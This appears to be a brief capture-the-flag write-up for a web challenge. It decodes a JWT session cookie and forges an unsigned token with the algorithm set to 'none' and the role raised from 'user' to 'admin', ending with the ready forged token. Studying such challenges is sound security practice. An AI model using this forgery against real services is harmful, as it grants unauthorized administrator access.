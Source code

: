 # Writup

Log into the system. The username is *user* and the password *incorrect*.

A cookie will be added called *token*. This token is a JWT token.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
.
eyJhdXRoIjo1MTQ2MiwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA1ODg1MDM1fQ
.
EN3v4Kr8_OHn-rhV0ME9QwsMvGv-47XQ7eeRMHqa0oQ
```

```
{"typ":"JWT","alg":"HS256"}
.
{"auth":51462,"text":"I do love a good puzzle.","role":"user","iat":1605885035}
.
EN3v4Kr8_OHn-rhV0ME9QwsMvGv-47XQ7eeRMHqa0oQ
```

```
{"typ":"JWT","alg":"none"}
.
{"auth":51462,"text":"I do love a good puzzle.","role":"admin","iat":1605885035}
.
```

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0
.
eyJhdXRoIjo1MTQ2MiwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJh
ZG1pbiIsImlhdCI6MTYwNTg4NTAzNX0
.
```

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjo1MTQ2MiwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNTg4NTAzNX0.
```
